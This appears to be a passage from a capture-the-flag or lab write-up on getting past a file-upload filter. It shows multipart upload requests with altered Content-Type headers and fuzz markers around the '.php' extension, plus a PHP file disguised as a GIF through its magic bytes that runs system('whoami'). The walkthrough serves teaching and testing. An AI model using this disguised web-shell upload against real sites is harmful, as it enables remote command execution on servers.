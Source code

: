 let's change it 

the content type would be ```Content-Type: images/jpg```

```php

------WebKitFormBoundary5RKwj5GwTJjAOK9j

Content-Disposition: form-data; name="file"; filename="whoami.§php§"

Content-Type: images/jpg


```
let's try with another type


```php

------WebKitFormBoundary5RKwj5GwTJjAOK9j

Content-Disposition: form-data; name="file"; filename="whoami.§php§"

Content-Type: images/jpeg


```

magic numbers

let's try with changing the magic numbers, because idk if you know but  The first magic numbers, initially when you want to investigate a file, 


for example, when you are doing a Buffer Over Flow, the first thing would be to see what kind of binary it is, so we apply a ```file``` command to check the file

```bash
❯ file whoami.php
whoami.php: ASCII text
```


to see what type of file it is. This is based on the first bytes of the file's content.

```bash

   1   │ GIF8;
   2   │ <?php
   3   │ system("whoami")
   4   │ ?>

```
now we changed it so let's try to check again 

```bash
❯ file whoami.php
whoami.php: GIF image data 16188 x 26736
```
